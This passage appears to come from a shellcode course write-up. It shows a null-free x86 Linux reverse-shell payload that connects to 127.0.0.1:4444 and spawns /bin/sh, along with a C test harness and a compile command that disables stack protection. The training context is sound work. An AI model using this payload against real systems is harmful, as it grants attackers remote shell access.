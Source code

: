 ```shell
...
```

 After confirming that no `NULL` bytes (`\x00`) are present in the output of `objdump`, the shellcode can be extracted and formatted using the one-liner command demonstrated in the TCP bind shell writeup. The resulting shellcode is shown below.

 ```shell
 \x31\xdb\xf7\xe3\x52\x6a\x01\x6a\x02\x89\xe1\xfe\xc3\xb0\x66\xcd\x80\x89\xc3\xbf\xff\xff\xff\xff\xb9\x80\xff\xff\xfe\x31\xf9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x53\x89\xe1\xb0\x66\xcd\x80\x89\xd1\xb0\x3f\xcd\x80\xfe\xc1\xb0\x3f\xcd\x80\xfe\xc1\xb0\x3f\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xd1\x89\xe3\xb0\x0b\xcd\x80
 ```

#### Testing The Shellcode
To confirm that the shellcode will work within the context of a C program, the shellcode can be placed in a test program (titled `sc_test.c` in this example) written in C, as shown below.

```c
#include <stdio.h>
#include <string.h>

/*
To compile:
gcc -m32 -fno-stack-protector -z execstack sc_test.c -o sc_test
*/

unsigned char shellcode[] = \
    "\x31\xdb\xf7\xe3\x52\x6a\x01\x6a"
    "\x02\x89\xe1\xfe\xc3\xb0\x66\xcd"
    "\x80\x89\xc3\xbf\xff\xff\xff\xff"
    "\xb9\x80\xff\xff\xfe\x31\xf9\x51"
    "\x66\x68\x11\x5c\x66\x6a\x02\x89"
    "\xe1\x6a\x10\x51\x53\x89\xe1\xb0"
    "\x66\xcd\x80\x89\xd1\xb0\x3f\xcd"
    "\x80\xfe\xc1\xb0\x3f\xcd\x80\xfe"
    "\xc1\xb0\x3f\xcd\x80\x52\x68\x2f"
    "\x2f\x73\x68\x68\x2f\x62\x69\x6e"
    "\x89\xd1\x89\xe3\xb0\x0b\xcd\x80";

int main(void)
{
    printf("Shellcode Length: %d\n", strlen(shellcode));
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```

The above program is compiled using the command shown below, as suggested in the commented program code.

```shell
root@kali:~/workspace/SLAE# gcc -m32 -fno-stack-protector -z execstack sc_test.c -o sc_test
```
